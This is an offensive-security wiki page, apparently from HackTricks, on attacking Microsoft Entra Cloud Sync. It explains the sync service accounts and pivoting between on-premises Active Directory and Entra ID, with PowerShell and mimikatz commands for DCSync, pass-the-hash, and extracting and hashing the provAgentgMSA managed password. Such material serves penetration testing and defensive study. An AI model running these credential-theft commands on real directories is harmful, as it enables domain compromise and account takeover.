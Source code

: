 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}


## Basic Information

**Cloud Sync** is basically the new way of Azure to **synchronize the users from AD into Entra ID**.

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync is a new offering from Microsoft designed to meet and accomplish your hybrid identity goals for synchronization of users, groups, and contacts to Microsoft Entra ID. It accomplishes this by using the Microsoft Entra cloud provisioning agent instead of the Microsoft Entra Connect application. However, it can be used alongside Microsoft Entra Connect Sync.

### Principals Generated

In order for this to work some principals are created in both Entra ID and the On-Premise directry:

- In Entra ID the user `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) is created with the role **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`). 

> [!WARNING]
> This role used to have a lot of privileged permissions and it could be used to [**escalate privileges even to global admin**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b). However, Microsoft decided to remove all the privileges of this role and assign it just a new one **`microsoft.directory/onPremisesSynchronization/standard/read`** which doesn't really allow to perform any privileged action (like modifying the password or atribbutes of a user or adding a new credential to a SP).

- In Entra ID also the group **`AAD DC Administrators`** is created without members or owners. This group is useful if [`Microsoft Entra Domain Services`](./az-domain-services.md) is used.

- In the AD, either the Service Account **`provAgentgMSA`** is created with a SamAcountName like **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), or a custom one with [**these permissions is needed**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account). Usually the default one is created.

> [!WARNING]
> Among other permissions the Service Account **`provAgentgMSA`** has DCSync permissions, allowing **anyone that compromises it to compromise the whole directory**. For more information about [DCSync check this](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html).

> [!NOTE]
> Domain admins are not replicated because the Domain Admin group has the **`adminCount` attribute to 1**. But other users might be replicated and attackable if you compromises them from EntraID: https://www.silverfort.com/blog/exploiting-weaknesses-in-entra-id-account-synchronization-to-compromise-the-on-prem-environment/

## Password Sychronization

The section is very similar to the one from:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **Password hash synchronization** can be enabled so users will be able to **login into Entra ID using their passwords from AD**. Moreover, whenever a password is modified in AD, it'll be updated in Entra ID.
- **Password writeback** can also be enabled, allowing users to modify their password in Entra ID automatically synchronizing their password in the on-premise domain. But according to the [current docs](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback), for this is needed to use the Connect Agent, so take a look to the [Az Connect Sync section](./az-connect-sync.md) for more information.


## Pivoting

### AD --> Entra ID

- If the AD users are being synced from the AD to Entra ID, pivoting from AD to Entra ID is straightforward, just **compromise some user's password or change some user's password or create a new user and wait until it's synced into the Entra ID directory (usually only a few mins)**.

So you could for example
- Compromise the **`provAgentgMSA`** account, perform a DCSync attack, crack the password of some user and then use it to login into Entra ID.
- Just create a new user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.
- Modify the password of some user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.

To compromise the **`provAgentgMSA`** credentials:

```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

Now you could use the hash of the gMSA to perform a Pass-the-Hash attack against Entra ID using the `provAgentgMSA` account and maintain persistence being able to perform DCSync attacks against the AD.

For more information about how to compromise an Active Directory check:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> Note that There isn't any way to give Azure or EntraID roles to synced users based on its attributes for example in the Cloud Sync configurations. However, in order to automatically grant permissions to synced users **dynamic groups might be used**, so always check for dynamic rules and potential ways to abuse them:

{{#ref}}
../../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

### Entra ID --> AD

- If **Password Writeback** is enabled, you could modify the password of some users from Entra ID and if you have access to the AD network, connect using them. For more info check the [Az Connect Sync section](./az-connect-sync.md) section for more information as the password writeback is configured using that agent.

- At this point in time Cloud Sync also allows **"Microsoft Entra ID to AD"**, but after too much time I found that it CANNOT synchronize EntraID users to AD and that it can only synchronize users from EntraID that were synchronized with the password hash and come from a domain that belong to the same domain forest as the domain we are synchronizing to as you can read in [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - These groups can only contain on-premises synchronized users and / or additional cloud created security groups.
> - The on-premises user accounts that are synchronized and are members of this cloud created security group, can be from the same domain or cross-domain, but they all must be from the same forest.

So the attack surface (and usefulness) of this service is greatly reduced as an attacker would need to compromise the initial AD from where the users are being synchronized in order to compromise a user in the other domain (and both must be in the same forest apparently).


### Enumeration

```bash
Import-Module AADInternals

# Check if the Cloud Sync is enabled in the tenant
Invoke-AADIntReconAsOutsider -Domain <domain name> | Format-Table

# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"




# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
  --method GET \
  --uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
  --headers "Content-Type=application/json"


```



{{#include ../../../../banners/hacktricks-training.md}}

